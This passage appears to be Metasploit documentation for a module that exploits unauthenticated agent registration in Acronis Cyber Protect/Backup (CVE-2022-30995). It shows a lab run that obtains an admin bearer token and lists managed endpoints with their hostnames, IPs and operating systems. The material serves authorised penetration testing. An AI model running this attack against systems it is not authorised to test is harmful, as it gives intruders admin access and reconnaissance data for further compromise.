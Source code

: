 ```msf
  appliance which, in its default configuration, allows the anonymous registration of new
  backup/protection agents on new endpoints. This API endpoint also generates bearer tokens
  which the agent then uses to authenticate to the appliance.
  As the management web console is running on the same port as the API for the agents, this
  bearer token is also valid for any actions on the web console. This allows an attacker
  with network access to the appliance to start the registration of a new agent, retrieve
  a bearer token that provides admin access to the available functions in the web console.

  This module will gather all machine info (endpoints) configured and managed by the appliance.
  This information can be used in a subsequent attack that exploits this vulnerability to
  execute arbitrary commands on both the managed endpoint and the appliance which is covered
  in another module `exploit/multi/acronis_cyber_protect_unauth_rce_cve_2022_3405`.

  Acronis Cyber Protect 15 (Windows, Linux) before build 29486 and
  Acronis Cyber Backup 12.5 (Windows, Linux) before build 16545 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2022-30995
  https://nvd.nist.gov/vuln/detail/CVE-2022-3405
  https://herolab.usd.de/security-advisories/usd-2022-0008/
  https://attackerkb.com/topics/27RudJXbN4/cve-2022-30995

View the full module info with the info -d command.
```
### Acronis Cyber Backup 12.5 build 14330 VMware appliance
```msf
msf auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf auxiliary(gather/acronis_cyber_protect_machine_info_disclosure) > run

[*] Running module against 192.168.201.6
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Retrieve the first access token.
[*] Register a dummy backup agent.
[*] Dummy backup agent registration is successful.
[*] Retrieve the second access token.
[+] The target appears to be vulnerable. Acronis Cyber Protect/Backup 12.5.14330
[*] Retrieve all managed endpoint configuration details registered at the Acronis Cyber Protect/Backup appliance.
[*] List the managed endpoints registered at the Acronis Cyber Protect/Backup appliance.
[*] ----------------------------------------
[+] hostId: 28BAFD9F-F9F1-481F-A970-1A6ED70736AC
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.0CA16CD4-1C6D-44D2-BEF1-B9F146005EE1@28BAFD9F-F9F1-481F-A970-1A6ED70736AC.disks
[*] type: machine
[*] hostname: WIN-BJDNH44EEDB
[*] IP: 192.168.201.5
[*] OS: Microsoft Windows Server 2019 Standard
[*] ARCH: windows
[*] ONLINE: false
[*] ----------------------------------------
[+] hostId: 345C3F1E-92C3-4E92-8EF8-AC6BF136BB83
[+] parentId: phm-group.7C2057CC-8D32-40CA-9B83-4A8E73078F7F.disks
[+] key: phm.F70D1B08-5097-4CE5-8E22-F9E0DB75401F@345C3F1E-92C3-4E92-8EF8-AC6BF136BB83.disks
[*] type: machine
[*] hostname: AcronisAppliance-AC319
[*] IP: 192.168.201.6
[*] OS: GNU/Linux
[*] ARCH: linux
[*] ONLINE: true
[*] Auxiliary module execution completed
```